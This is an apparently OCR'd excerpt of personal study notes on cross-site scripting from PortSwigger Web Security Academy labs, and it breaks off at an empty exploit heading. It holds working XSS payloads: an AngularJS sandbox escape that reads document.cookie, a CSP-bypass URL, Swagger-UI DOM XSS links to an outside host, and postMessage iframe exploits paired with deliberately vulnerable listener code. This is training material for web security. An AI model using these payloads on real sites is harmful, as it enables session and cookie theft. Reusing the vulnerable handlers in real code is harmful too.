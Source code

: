     ```jsx
    <script>
    location='<https://YOUR-LAB-ID.web-security-academy.net/?search=%3Cinput%20id=x%20ng-focus=$event.composedPath()|orderBy:%27(z=alert)(document.cookie)%27%3E#x>';
    </script>
    ```
    
- ****Reflected XSS protected by CSP, with CSP bypass****
    
    ```jsx
    <https://0a67007704633ac081cf08c8008f006c.web-security-academy.net/?search=%3Cscript%3Ealert%281%29%3C%2Fscript%3E&token=;script-src-elem%20%27unsafe-inline%27>
    ```
    
- **Check for Dom-XSS in Swagger-UI**
    
    - [https://github.com/doosec101/swagger_scanner](https://github.com/doosec101/swagger_scanner)
    - configUrl=https://jumpy-floor.surge.sh/test.json
    - ?url=https://jumpy-floor.surge.sh/test.yaml
- **[DOM XSS using web messages](https://portswigger.net/web-security/dom-based/controlling-the-web-message-source/lab-dom-xss-using-web-messages)**
    
    **Vulnerable Code**
    
    ```jsx
    <script>
                            window.addEventListener('message', function(e) {
                                document.getElementById('ads').innerHTML = e.data;
                            })
                        </script>
    ```
    
    **Exploit**
    
    ```python
    <iframe src="<https://target.com/>" onload="this.contentWindow.postMessage('<img src=1 onerror=print()>','*')">
    ```
    
- **[DOM XSS using web messages and a JavaScript URL](https://portswigger.net/web-security/dom-based/controlling-the-web-message-source/lab-dom-xss-using-web-messages-and-a-javascript-url)**
    
    **Vulnerable code**
    
    ```jsx
    <script>
                            window.addEventListener('message', function(e) {
                                var url = e.data;
                                if (url.indexOf('http:') > -1 || url.indexOf('https:') > -1) {
                                    location.href = url;
                                }
                            }, false);
                        </script>
    ```
    
    **Exploit**
    